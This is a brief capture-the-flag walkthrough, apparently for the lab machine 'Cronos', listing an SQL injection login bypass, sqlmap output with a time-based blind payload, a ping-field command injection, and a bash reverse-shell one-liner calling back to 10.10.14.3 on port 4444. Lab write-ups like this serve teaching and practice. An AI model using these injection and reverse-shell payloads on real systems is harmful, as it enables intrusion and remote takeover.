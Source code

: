 # authentication bypass
Use username `admin' or 1=1-- ` to log in
![net_tool.png](net_tool.png)

## login request
```
POST /index.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/index.php
Cookie: PHPSESSID=k0vh24q7j8ibnucuqip9ktgbv2
Upgrade-Insecure-Requests: 1

username=asdf&password=asdf
```

## sqlmap
```
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=asdf' AND (SELECT 5089 FROM (SELECT(SLEEP(5)))HUkL) AND 'maAs'='maAs&password=asdf
---
```


# ping command injection
`127.0.0.1; id`

![command_injection.png](command_injection.png)

## Reverse shell
`127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'`

